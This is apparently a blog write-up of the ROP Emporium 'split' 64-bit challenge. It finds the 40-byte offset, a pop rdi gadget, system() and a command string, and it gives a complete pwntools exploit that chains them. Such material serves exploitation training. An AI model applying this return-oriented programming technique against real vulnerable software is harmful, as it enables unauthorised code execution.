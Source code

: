 ```yaml
---
layout: post
title: ROP Emporium Challenge 1 - Split (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *That useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.*
<!--more-->

# split

Link: https://ropemporium.com/challenge/split.html


--------------------------


## 1. Calculating RIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 41 characters we see only one "41" in RIP registry:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split/images/Screenshot_1.jpg)



## 2. Studying the binary

Then we find the gadget "pop rdi; ret" to set a value in registry RDI. This gadget is located in address "0x0000000000400883":

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split/images/Screenshot_2.jpg)

We can find the system address with objdump, located in "0x00000000004005e0":

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split/images/Screenshot_3.jpg)

Next, we need the address of the string "/bin/cat flag.txt". We can do this using GEF, and finding the address is "0x601060":

```
gdb -q ./split
break main
r
grep "/bin/cat flag.txt"
``` 
![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split/images/Screenshot_4.jpg)


## 3. Calling system("/bin/cat flag.txt")

The idea is calling the function *system()* (which is included in the binary) with one argument: the string "/bin/cat flag.txt". In 64 bits binaries, the first argument must be stored in RDI ([source](https://uclibc.org/docs/psABI-x86_64.pdf)).

So we will use the "pop; ret" gadget to move thhe string to RDI and then we will call *system()*, which expexts only ine argument. We will achieve this concatenating (pop rdi gadget) + (string) + (system address), with a code like this:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'split'
p = process('./'+binary_name)

junk = "A"*40
elf =  ELF(binary_name)
rop =  ROP(elf)

pop_rdi =  0x400883
system =   0x4005e0
cat_flag = 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```


And it seems to work:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split/images/Screenshot_5.jpg)

Now we will change the calculation of some addresses making it automatic with Python:

```
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] #0x0000000000400883
system = elf.sym["system"] #0x00000000004005e0
cat_flag = next(elf.search('/bin/cat flag.txt')) # 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)
```

## 4. Final exploit

And it still works! Final exploit:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'split'
p = process('./'+binary_name)

junk =    "A"*40
elf = ELF(binary_name)
rop = ROP(elf)


pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] #0x0000000000400883
system = elf.sym["system"] #0x00000000004005e0
cat_flag = next(elf.search('/bin/cat flag.txt')) # 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

